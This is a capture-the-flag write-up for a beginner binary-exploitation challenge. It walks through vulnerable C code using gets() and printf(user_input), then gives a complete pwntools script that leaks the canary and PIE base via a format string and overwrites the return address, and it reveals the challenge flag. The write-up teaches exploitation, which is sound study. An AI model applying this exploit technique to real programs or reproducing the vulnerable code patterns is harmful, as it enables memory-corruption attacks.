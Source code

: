 # Intro to Pwning 2

## Information
Category: Pwn   
Difficulty: Baby   
Author: LiveOverflow   
Dependencies: Intro to Pwning 1   
First Blood: BoredPerson   
Description: Service running at: hax1.allesctf.net:9101   

## Solution

Looking at the supplied source code gives us enough information to get a good idea what we are to exploit here. We need to somehow return into the function
WINgardium_leviosa(). 
To do so, we have to override the return address of the current function frame on the stack. However, it is not as easy as it sounds as the binary is compiled with
position independant code enabled and we also now have the challange of circumventing the stack protection.   

First, lets take a closer look at the code from a hacker perpective:

In the main function, two functions are called whose potential exploitable characteristics are shown here:

### welcome():
```c
void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}
```
In this function we able to exploit a buffer overflow vulnerability and format string vulnerablity.
However, using the first excludes the latter in terms of usuability.

### AAAAAAAA():
```c
void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
```
Here, we can again give input over an insecure function and overflow the stack

So we need to get the base address of the binary first, which we can accomplish by exploiting a format string vulnerability in a printf() function.
This can leak various important refrences that exist in the upper stack frames, but we are only interested in some pointer into out binary image and the
stack canary that we need to put back such that the binary will not terminate.

Next, knowing the correct binary offset, we can calculate the current address of WINgardium_leviosa() and take the next opportunity in the AAAAAAAAA()
function to overwrite the return address of the current stack frame and reput the stack canary at its place.


Again, we need to calculate the correct address for WINgardium_leviosa() from the stack leak, but this time we also find and store the stack canary.
In this case, we first need to provide the password from stage 1.

```python
#!/usr/bin/python
from pwn import *
import time as t

STACK_CANARY_INDEX = 44

p = process("../resources/pwn2")
print("[info] attached to process ")

#prepare first payload (password)
PASSWORD = "CSCG{FLAG_FROM_STAGE_1}" # CSCG{NOW_GET_VOLDEMORT}

print("[info] password is")
print("[info] " + PASSWORD)

p.recvuntil("Enter the password of stage 1:\n")
p.sendline(PASSWORD)
print("successfully passed pw check")


fstring = "%p " * 50
p.recvuntil("Enter your witch name:\n")
p.sendline(fstring)
leak = p.recvuntil(" enter your magic spell:\n")
addr_arr = leak.split(" ")
# info
for x in addr_arr:
    print(x)

retp_welcome = addr_arr[46] # correct
p_win = int(retp_welcome,16) - 0x26a
p_win_ret = p_win + 0x3a
stack_canary = addr_arr[STACK_CANARY_INDEX]
```

Now we simply construct our modified payload from the first challange

```python 
print("[info] retp_welcome@ "+ retp_welcome)
print("[info] p_win@ " + hex(p_win))
print("[info] p_win_ret@ " + hex(p_win_ret))
print("[info] stack_canary@ " + stack_canary)
print("[info] indexof stack_canary@ " + hex(STACK_CANARY_INDEX))

padding = "Expelliarmus\0x00"
padding += (0xff - (len(padding)+1)) * 'P' # fill to 255
padding += 10 * 'A' # alignment
padding += p64(int(stack_canary,16), endian='little') # 8 byte stack canary
padding += 8 * 'B'
padding += p64(p_win_ret, endian='little')
padding += p64(p_win, endian='little')
p.sendline(padding)
p.interactive()
```

Now, we just need to adjust our local exploit for remote use, and we get the flag: CSCG{NOW_GET_VOLDEMORT}

## Prevention

A possible fix for this issue could include sanitizing user input before echoing it via printf(). Outdatad functions like
gets() should also be avoided.